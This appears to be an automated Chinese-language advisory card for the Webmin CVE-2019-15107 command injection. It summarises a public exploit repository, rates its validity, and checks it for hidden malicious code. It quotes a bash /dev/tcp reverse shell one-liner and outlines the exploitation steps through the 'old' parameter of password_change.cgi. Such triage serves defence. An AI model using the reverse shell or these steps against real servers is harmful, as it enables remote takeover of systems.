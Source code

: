 ## CVE-2019-15107 - Webmin password_change.cgi 命令注入

**漏洞编号:** CVE-2019-15107

**漏洞类型:** 命令注入

**影响应用:** Webmin

**危害等级:** 高危，可能导致远程代码执行

**影响版本:** <= 1.920

**利用条件:** 需要Webmin服务运行在10000端口，且目标存在未授权访问漏洞或已授权的Webmin用户

**POC 可用性:** 是

**投毒风险:** 0%

## 详情

CVE-2019-15107漏洞存在于Webmin 1.920及更早版本的password_change.cgi文件中。攻击者可以通过向old参数发送特制的请求，注入操作系统命令。由于该漏洞允许未经身份验证的远程代码执行，因此风险极高。

**有效性评估：**
根据漏洞库信息、搜索引擎结果和提供的PoC代码，可以判断该漏洞利用的有效性较高。漏洞库和搜索引擎结果均表明该漏洞是真实存在的，并且存在公开可用的PoC代码。提供的Python脚本PoC也实现了漏洞验证和利用的功能，通过发送包含恶意命令的POST请求，尝试在目标系统上执行任意命令。

**投毒风险分析：**
检查提供的PoC代码，未发现明显的投毒代码。代码主要功能是：
1.  发送包含命令注入的HTTP请求。
2.  启动一个反向shell监听器。
3.  如果目标存在漏洞，利用命令注入执行反向shell，连接到攻击者的监听器。

代码中使用的反向shell命令`bash -c '0<&66-;exec 66<>/dev/tcp/{lhost}/{lport};sh <&66 >&66 2>&66'`是常见的反向shell命令，并没有发现恶意或隐藏的代码。因此，可以判断此仓库中不存在作者隐藏的投毒代码。

**利用方式：**
1.  **漏洞发现：** 攻击者扫描或探测运行Webmin的服务器，识别存在漏洞的版本（<=1.920）。
2.  **构造恶意请求：** 攻击者构造包含命令注入的POST请求，将恶意命令放入password_change.cgi文件的old参数中。
3.  **发送请求：** 攻击者将构造的POST请求发送到目标服务器的`/password_change.cgi`路径。
4.  **执行命令：** Webmin服务器在处理password_change.cgi请求时，由于未对old参数进行充分的验证和过滤，导致注入的命令被执行。
5.  **获取权限：** 攻击者通过执行恶意命令，例如反向shell，获取目标服务器的控制权限。

**项目地址:** [K3ysTr0K3R/CVE-2019-15107-EXPLOIT](https://github.com/K3ysTr0K3R/CVE-2019-15107-EXPLOIT)

**漏洞详情:** [CVE-2019-15107](https://nvd.nist.gov/vuln/detail/CVE-2019-15107)